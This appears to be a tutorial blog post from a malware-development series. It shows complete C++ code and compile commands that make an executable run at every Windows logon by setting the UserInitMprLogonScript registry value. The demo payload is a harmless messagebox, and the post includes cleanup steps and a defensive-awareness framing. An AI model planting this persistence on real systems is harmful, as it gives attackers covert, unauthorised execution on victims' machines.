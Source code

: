 ```yaml
---
title:  "Malware development: persistence - part 20. UserInitMprLogonScript (Logon Script). Simple C++ example."
date:   2022-12-09 03:00:00 +0300
header:
  teaser: "/assets/images/82/2022-12-11_18-11.png"
categories:
  - persistence
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/82/2022-12-11_18-11.png){:class="img-responsive"}    

This post is based on my own research into one of the more interesting malware persistence tricks: via `UserInitMprLogonScript` value.     

### UserInitMprLogonScript

Windows enables the execution of logon scripts whenever a user or group of users logs into a system. Adding a script's path to the `HKCU\Environment\UserInitMprLogonScript` Registry key accomplishes this. So, to establish persistence, hackers may utilize Windows logon scripts automatically executed upon logon initialization.      

### practical example

Let's go to look at a practical example. First of all, as usually, create "evil" application. For simplicity, as usually, it's `meow-meow` messagebox application (`hack.cpp`):  

```cpp
/*
hack.cpp
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

And, then just create persistence script (`pers.cpp`):      

```cpp
/*
pers.cpp
windows persistence via
setting UserInitMprLogonScript value
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // env
  const char* env = "Environment";

  // evil app
  const char* exe = "Z:\\2022-12-09-malware-pers-20\\hack.exe";

  // environment
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)env, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKEY_CURRENT_USER\Environment" /v "UserInitMprLogonScript" /t REG_SZ /d "...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"UserInitMprLogonScript", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

As you can see, the logic is simple. Just set `UserInitMprLogonScript` key value under `HKCU\Environment` to the full path of our "malware" - `Z:\\2022-12-09-malware-pers-20\hack.exe`.     

### demo

Let's go to see everything in action. First of all, check Registry:      

```powershell
reg query "HKCU\Environment" /s
```

![pers](/assets/images/82/2022-12-11_17-57.png){:class="img-responsive"}    


Then, compile our "malware" at the attacker's machine (`kali`):    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/82/2022-12-11_17-54.png){:class="img-responsive"}    

And for checking correctness, try to run `hack.exe` at the victim's machine (`Windows 10 x64` in my case):    

```powershell
.\hack.exe
```

![pers](/assets/images/82/2022-12-11_18-00.png){:class="img-responsive"}    

As you can see, our "malware" works perfectly.    

At the next step, let's go to compile our persistence script at the attacker's machine:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/82/2022-12-11_17-55.png){:class="img-responsive"}    

And run it at the attacker's machine:    

```powershell
.\pers.exe
```

Then, check our Registry key values again:    

```powershell
reg query "HKCU\Environment" /s
```

![pers](/assets/images/82/2022-12-11_18-06.png){:class="img-responsive"}    

So, as you can see, the key (`UserInitMprLogonScript`) value is set.    

That's all. Try to logout and login:     

![pers](/assets/images/82/2022-12-11_18-07.png){:class="img-responsive"}    

![pers](/assets/images/82/2022-12-11_18-07_1.png){:class="img-responsive"}    

And after a few milliseconds, our "malware", `meow-meow` popped up:     

![pers](/assets/images/82/2022-12-11_18-08.png){:class="img-responsive"}    

Then, if we open Process Hacker and check `hack.exe` properties:     

![pers](/assets/images/82/2022-12-11_18-09.png){:class="img-responsive"}    

![pers](/assets/images/82/2022-12-11_18-10.png){:class="img-responsive"}    

we see that the parent process is "non-existent" process.    

If you have studied the windows internals at least a little, you know that exists processes which have "non-existent" process as parent. For example, Windows Explorer - `explorer.exe`. Parent process is `userinit.exe` or `winlogon.exe`, but can be anything `.exe` using `explorer.exe`. Parent will show as `<Non-existent Process>` since `userinit.exe` terminates itself. Another example is Windows Logon - `winlogon.exe`. Parent is "does not exist" since `smss.exe` exits.      

If we check `hack.exe` properties via [Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer), we can see "Autostart Location" value:    

![pers](/assets/images/82/2022-12-11_20-05.png){:class="img-responsive"}    

Everything is worked perfectly! =^..^=

After the end of experiment, delete the key:    

```powershell
Remove-ItemProperty -Path "HKCU:\Environment" -Name "UserInitMprLogonScript"
```

![pers](/assets/images/82/2022-12-19_18-00.png){:class="img-responsive"}    

This persistence trick is used by [APT28](https://attack.mitre.org/groups/G0007) group and software like [Attor](https://attack.mitre.org/software/S0438) and [Zebrocy](https://attack.mitre.org/software/S0438) at the wild.    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

> This is a practical case for educational purposes only.      

[Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer)        
[Malware persistence: part 1](/tutorial/2022/04/20/malware-pers-1.html)       
[APT28](https://attack.mitre.org/groups/G0007)      
[Attor](https://attack.mitre.org/software/S0438)        
[Zebrocy (Trojan)](https://attack.mitre.org/software/S0438)       
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-12-09-malware-pers-20)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
